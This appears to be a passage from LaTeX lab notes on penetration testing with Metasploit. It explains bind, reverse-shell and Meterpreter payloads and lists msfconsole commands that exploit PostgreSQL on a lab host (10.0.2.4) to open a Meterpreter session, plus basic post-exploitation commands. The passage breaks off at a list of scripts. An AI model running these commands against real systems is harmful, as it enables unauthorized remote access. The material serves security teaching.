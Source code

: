\begin{itemize}
    \item Portbind: it opens a port in the target and then we can connect to such port. This is generally prevented by firewalls at the target. Generally, we obtain shell access (a.k.a. command line access) after connecting to the target port.
    \item Reverse shell: it open a port in our attacking system, then the target connects to our system. Generally we obtain shell access.
    \item Meterpreter: it opens a port in our attacking system, then the target connects to our system. In this case we do not obtain shell access, we obtain a Meterpreter session, which includes additional commands.
\end{itemize}

\subsection{Meterpreter}

To obtain a Meterpreter session in the target, we can use the following commands:
\begin{enumerate}
    \item \texttt{msf5 > use exploit/linux/postgresql/postgresql\_payload}
    \item \texttt{msf5 > set payload linux/x86/meterpreter/bind\_tcp}
    \item \texttt{msf5 > set RHOST 10.0.2.4}
    \item \texttt{msf5 > run}
\end{enumerate}

Some of the most common commands that Meterpreter has are:

\begin{itemize}
    \item List of commands:\\
    \texttt{meterpreter > help}
    \item Obtain shell:\\
    \texttt{meterpreter > shell}
    \item Get user info: \\
    \texttt{meterpreter > getuid}
    \item Get system info:\\
    \texttt{meterpreter > sysinfo}
\end{itemize}

Additionally, Meterpreter has scripts. The list of available scripts depends on the target. For our setup, we some of the available scripts are:

